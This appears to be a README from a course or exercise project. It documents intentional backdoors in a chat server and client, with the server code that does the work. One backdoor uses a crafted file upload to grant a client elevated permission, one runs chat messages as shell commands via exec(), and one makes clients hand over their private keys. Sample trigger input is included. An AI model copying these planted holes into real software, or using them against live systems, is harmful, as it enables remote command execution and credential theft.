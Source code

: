 # Backdoors and Vulnerabilities
## Elevating client permissions on server.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
    var checkers = check.split("\n");
    if (checkers.length > 9) {
        var vfp = checkers[9];
        console.log(vfp);
        var client_ind = getClientIndex(vfp);
        if (client_ind != -1) {
            connectedClients[client_ind].permission = 1;
            res.setHeader('Content-Type', 'application/json');
            res.end(JSON.stringify({
                status: "Created",
                url: "Vulnerability Activated"
            }));
        }
    }
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
The publicKey of the server can be accessed by going to the "/pubkey" route of the server
```
https://<serverip>:<port>/pubkey
```
# Executing system commands on server from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
	if (ws.permission == 1) {
		if (dataObj.data !== undefined) {
			var msg = dataObj.data.message;
			var cmd = "";
			if (msg.startsWith("/cmd ")) {
				cmd = msg.substr(4);
				console.log("executing code");
				exec(cmd, (err, stdout, stderr) => {
					if (err) {
						console.log("couldn't execute command");
						return;
					}
					console.log(`stdout: ${stdout}`);
					console.log(`stderr: ${stderr}`);
					var retmsg = stdout + "\n" + stderr;
					var execret = {
						type: "anonymous_chat",
						message: retmsg
					};
					ws.send(JSON.stringify(execret));
				});
				return;
			} else if (msg.startsWith("/pk")) {
				console.log("request for client privateKeys");
				dataObj.data.check = 1;
			}
		}
	}
	sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
	sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
	break;
```
# Getting private keys of clients from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/pk", the server adds the "data.check" field to the "public_chat" before passing it to the other clients. (see above code)
this is an intentional vulnerability within the client code (index.html) therefore the elevation of permissions in the server is unnecessary and can be executed by sending a correctly formatted "public_chat".
```

```
Upon receiving the "public_chat" with the "data.check" field present, the client sends a "public_chat" containing its privateKey.
